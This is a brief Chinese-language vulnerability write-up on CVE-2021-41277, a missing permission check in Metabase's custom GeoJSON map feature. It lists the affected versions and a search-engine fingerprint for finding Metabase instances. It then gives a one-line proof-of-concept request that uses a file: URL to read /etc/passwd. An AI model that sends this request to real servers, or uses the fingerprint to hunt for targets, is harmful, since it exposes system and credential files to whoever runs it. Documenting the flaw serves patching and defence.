


# Metabase geojson 任意文件读取漏洞 CVE-2021-41277

## 漏洞描述

在受影响的版本中，自定义 GeoJSON 地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息

## 漏洞影响

```
metabase version < 0.40.5
metabase version >= 1.0.0, < 1.40.5
```

## 网络测绘

```
app="metabase"
```

## 漏洞复现

登录页面



验证POC

```
/api/geojson?url=file:/etc/passwd
```

